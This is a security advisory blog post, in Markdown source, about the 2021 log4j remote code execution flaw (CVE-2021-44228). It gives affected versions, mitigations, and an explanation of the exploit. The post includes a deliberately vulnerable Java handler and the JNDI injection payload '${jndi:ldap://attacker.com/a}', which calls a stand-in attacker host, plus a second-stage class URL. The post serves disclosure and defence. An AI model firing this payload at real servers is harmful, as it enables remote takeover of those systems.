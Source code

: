 ```yaml
---
title: RCE 0-day exploit found in log4j, a popular Java logging package
description: Given how ubiquitous this library is, the impact of this vulnerability is quite severe. Learn how to patch it, why it's bad, and more in this post.
slug: log4j-zero-day
authors:
- name: Free Wortley 
  title: CEO at LunaSec 
  url: https://github.com/freeqaz
  image_url: https://github.com/freeqaz.png
  tags: [zero-day, security, data-security, data-breaches]
- name: Chris Thompson
  title: Developer at Lunasec
  url: https://github.com/breadchris
  image_url: https://github.com/breadchris.png

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

_Updated @ December 10th, 12am PST_

A few hours ago, a 0-day exploit in the
popular Java logging library `log4j` was discovered that results in Remote Code Execution (RCE) by
logging a certain string.

Given how ubiquitous this library is, the impact of the exploit (full server control), and how easy it is to exploit,
the impact of this vulnerability is quite severe. 

The 0-day was [tweeted](https://twitter.com/P0rZ9/status/1468949890571337731) along with a POC posted on
[GitHub](https://github.com/tangxiaofeng7/apache-log4j-poc).  ~~Since this vulnerability is still very new, there isn't a CVE to track
it yet.~~ This has been published as [CVE-2021-44228](https://www.randori.com/blog/cve-2021-44228/) now.

This post provides resources to help you understand the vulnerability and how to mitigate it for yourself.

<!--truncate-->

## Who is impacted?
Many, many services are vulnerable to this exploit.  Cloud services like [Steam, Apple iCloud](https://news.ycombinator.com/item?id=29499867), and apps like
Minecraft have already been found to be vulnerable.  

Anybody using Apache Struts is likely vulnerable. We've seen similar vulnerabilities exploited before in breaches like 
the [2017 Equifax data breach](https://en.wikipedia.org/wiki/2017_Equifax_data_breach#Data_breach).

Many Open Source projects
like the Minecraft server, [Paper](https://github.com/PaperMC/Paper/commit/b475c6a683fa34156b964f751985f36a784ca0e0),
have already begun patching their usage of `log4j`.

**Updates (3 hours after posting):**
According to [this blog post](https://www.cnblogs.com/yyhuni/p/15088134.html) (in [english](https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US)),
JDK versions greater than `6u211`, `7u201`, `8u191`, and `11.0.1` are not affected by the LDAP attack vector. In these versions
`com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` meaning JNDI cannot load a remote codebase using LDAP. 

However, there are other attack vectors targeting this vulnerability which can result in RCE. Depending on what code is
present on the server, an attacker could leverage this existing code to execute a payload. An attack targeting the class
`org.apache.naming.factory.BeanFactory`, present on Apache Tomcat servers, is discussed
in [this blog post](https://www.veracode.com/blog/research/exploiting-jndi-injections-java). 

## Affected Apache log4j Versions

`2.0 <= Apache log4j <= 2.14.1`

## Permanent Mitigation

At the time this post was created (December 9th, 2021) no stable release is available. There is a patched release 
candidate of `log4j` published with versions `log4j-2.15.0-rc1` and `log4j-2.15.0-rc2` available on GitHub
[here](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2).

## Temporary Mitigation

As per [this discussion on HackerNews](https://news.ycombinator.com/item?id=29507263):

> The 'formatMsgNoLookups' property was added in version 2.10.0, per the JIRA Issue LOG4J2-2109 [1] that proposed it. Therefore the 'formatMsgNoLookups=true' mitigation strategy is available in version 2.10.0 and higher, but is no longer necessary with version 2.15.0, because it then becomes the default behavior [2][3].
> 
> If you are using a version older than 2.10.0 and cannot upgrade, your mitigation choices are:
> 
> - Modify every logging pattern layout to say `%m{nolookups}` instead of `%m` in your logging config files, see details at https://issues.apache.org/jira/browse/LOG4J2-2109 or,
>
> - Substitute a non-vulnerable or empty implementation of the class org.apache.logging.log4j.core.lookup.JndiLookup, in a way that your classloader uses your replacement instead of the vulnerable version of the class. Refer to your application's or stack's classloading documentation to understand this behavior.

## How the exploit works

### Exploit Requirements 
- A server with a vulnerable `log4j` version (listed above),
- an endpoint with any protocol (HTTP, TCP, etc) that allows an attacker to send the exploit string,
- and a log statement that logs out the string from that request.

### Example Vulnerable Code

```java
import org.apache.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:" + userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

### Exploit Steps
1. Data from the User gets sent to the server (via any protocol),
2. The server logs the data in the request, containing the malicious payload: `${jndi:ldap://attacker.com/a}` (where `attacker.com` is an attacker controlled server),
3. The `log4j` vulnerability is triggered by this payload and the server makes a request to `attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI),
4. This response contains a path to a remote Java class file (ex. `http://second-stage.attacker.com/Exploit.class`) which is injected into the server process,
5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

Due to how common Java vulnerabilities such as these are, security researchers have created tools to easily exploit 
them. The [marshalsec](https://github.com/mbechler/marshalsec) project is one of many that demonstrates generating an
exploit payload that could be used for this vulnerability. You can refer to [this malicious LDAP server](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) for an example of exploitation. 

## More information

We'll continue to update this post as information about the impact of this exploit becomes available.

For now, we're just publishing this to help raise awareness and get people patching it. Please tell any of your friends 
running Java software!

### How you can prevent future attacks

Approaches like Tokenization can limit your vulnerability to attacks before they happen by requiring multiple exploits
to leak sensitive data.

[LunaSec](https://www.lunasec.io/docs/pages/overview/introduction/) is an Open Source Data Security framework designed 
to help [mitigate](https://www.lunasec.io/docs/pages/how-it-works/features/) attacks just like this one.

### Editing this post
If you have any updates or edits you'd like to make, you can edit this post as Markdown on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-09-log4j-zero-day.md). And please throw us a Star ⭐!

### Links
- **[Hacker News](https://news.ycombinator.com/item?id=29504755)**
- **[Reddit](https://old.reddit.com/r/programming/comments/rcxehp/rce_0day_exploit_found_in_log4j_a_popular_java/)**
- **[Twitter](https://twitter.com/freeqaz/status/1469121757361569793?s=20)**

### Edits

1. Updated the "Who is impacted?" section to include mitigating factor based on JDK version, but also suggest other exploitation
methods are still prevalent.
2. ~~Named the vulnerability "LogJam",~~ added CVE, and added link to release tags.
3. Update mitigation steps with newer information.
4. Removed the name "LogJam" because it's already been [used](https://en.wikipedia.org/wiki/Logjam_(computer_security)).

### References

[1] https://issues.apache.org/jira/browse/LOG4J2-2109

[2] https://github.com/apache/logging-log4j2/pull/607/files

[3] https://issues.apache.org/jira/browse/LOG4J2-3198

Also kudos to @80vul for [tweeting](https://twitter.com/80vul/status/1468968891489857537) about this.

